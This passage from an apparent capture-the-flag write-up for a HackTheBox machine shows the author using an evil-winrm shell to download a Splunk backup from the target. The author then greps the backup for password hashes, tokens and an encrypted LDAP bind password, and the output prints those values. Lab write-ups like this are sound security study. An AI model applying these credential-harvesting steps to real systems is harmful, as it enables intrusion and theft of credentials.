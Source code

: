 The only file is a zip archive:

```

evil-winrm-py PS C:\Backups\Splunk> ls

    Directory: C:\Backups\Splunk

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip 

```

I’ll download it:

```

evil-winrm-py PS C:\Backups\Splunk> download splunk_backup_2024-08-06.zip splunk_backup_2024-08-06.zip
Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip: 26.2MB [00:31, 860kB/s]                                                    
[+] File downloaded successfully and saved as: /media/sf_CTFs/hackthebox/haze-10.10.11.61/splunk_backup_2024-08-06.zip

```

#### splunk\_backup\_2024-08-06.zip

Unzipping the archive creates a `Splunk` directory:

```

oxdf@hacky$ ls Splunk/
bin            etc               license-eula.txt  Python-3.7         share                                          var
cmake          lib               openssl.cnf       quarantined_files  splunk-9.2.1-78803f08aabb-windows-64-manifest
copyright.txt  license-eula.rtf  opt               README-splunk.txt  swidtag

```

The first thing to look for is hashes / encrypted passwords. Since they all seem to take the format `$[digit]$`, I’ll recursively `grep` for this:

```

oxdf@hacky$ grep -rP '\$[0-9]\$\S{15,}' Splunk/
Splunk/etc/passwd::admin:$6$8FRibWS3pDNoVWHU$vTW2NYea7GiZoN0nE6asP6xQsec44MlcK2ZehY5RC4xeTAz4kVVcbCkQ9xBI2c7A8VPmajczPOBjcVgccXbr9/::Administrator:admin:changeme@example.com:::19934
Splunk/etc/system/README/user-seed.conf.example:HASHED_PASSWORD = $6$TOs.jXjSRTCsfPsw$2St.t9lH9fpXd9mCEmCizWbb67gMFfBIJU37QF8wsHKSGud1QNMCuUdWkD8IFSgCZr5.W6zkjmNACGhGafQZj1
Splunk/etc/system/README/outputs.conf.example:token=$1$/fRSBT+2APNAyCB7tlcgOyLnAtqAQFC8NI4TGA2wX4JHfN5d9g==
Splunk/etc/system/README/inputs.conf.example:token = $7$ifQTPTzHD/BA8VgKvVcgO1KQAtr3N1C8S/1uK3nAKIE9dd9e9g==
grep: Splunk/var/lib/splunk/_introspection/db/db_1722472316_1722471805_2/1722472316-1722471805-7069930062775889648.tsidx: binary file matches
Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
